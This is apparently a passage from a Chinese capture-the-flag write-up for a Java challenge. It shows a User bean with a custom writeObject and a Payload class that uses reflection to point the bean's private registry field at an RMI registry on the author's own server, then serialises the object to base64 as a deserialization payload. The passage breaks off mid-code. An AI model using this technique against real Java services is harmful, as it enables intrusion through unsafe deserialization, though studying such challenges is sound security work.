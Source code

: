 ```java
    public String getUsername() {
        return this.username;
    }

    public int getAge() {
        return this.age;
    }

    private Registry getRegistry() {
        return this.registry;
    }

    public Registry checkGetRegistry() {return this.registry;}

    public User() {}

    private void writeObject(ObjectOutputStream out) throws IOException {
        out.writeInt(114514);
        out.writeByte(2);
        out.defaultWriteObject();
    }


    public User(String username, int age) {
        this.username = username;
        this.age = age;
        this.registry = null;
    }
}

```

序列化对象，弄好LocateRegistry.getRegistry配置注册中心并打印base64编码

当时在学习测试rmi的时候，得知packag包名和class类名必须完全相同才能连到rmi服务器，所以有package
```java
package ctf.minil.java.minil.bean;

import java.io.*;
import java.lang.reflect.Field;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.Base64;

public class Payload{
    public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException {
        Registry registry = LocateRegistry.getRegistry("👴的服务器ip", 5641);
        User payload = new User("L_team", 18);
        //test reflection inject

        //before
        System.out.print(payload.checkGetRegistry());

        //operation 通过反射修改User类的私有成员registry
        Class p = payload.getClass();
        Field f = p.getDeclaredField("registry");
        f.setAccessible(true);
        Object reg = f.get(payload);
        f.set(payload, registry);

        //after
        System.out.print(payload.checkGetRegistry());

```